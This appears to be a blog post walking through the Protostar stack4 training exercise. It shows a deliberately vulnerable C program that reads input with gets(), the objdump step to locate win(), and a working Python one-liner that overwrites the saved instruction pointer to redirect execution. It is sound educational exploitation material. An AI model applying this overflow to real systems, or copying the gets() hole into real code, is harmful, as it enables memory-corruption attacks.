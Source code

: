 ```yaml
---
layout: post
title: "Overwriting the instruction pointer: protostar stack4"
date: 2018-10-29
categories: jekyll update
---
```

We can see this level is similar to the previous one, but with one major difference. 
{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}
There is a function, win() which we will attempt to call, but we are no longer given a function pointer to overwrite. 

We will need to write to the instruction pointer, in this case, it is specifically called the EIP. To do this, we first need to find the address of the win() function, because that is what we will write to the instruction pointer.

objdump is again perfect for this.

$objdump -D stack4 \| grep win

080483f4 \<win\>:

$

The address in this case is 0x80483f4.

We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot

$python -c 'print "A"*76' | ./stack4 

Segmentation fault

$

A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.

$python -c 'print "A"*75' | ./stack4 

$

Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.

$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4

Code flow successfully changed

Segmentation fault

$

Looks like it works.
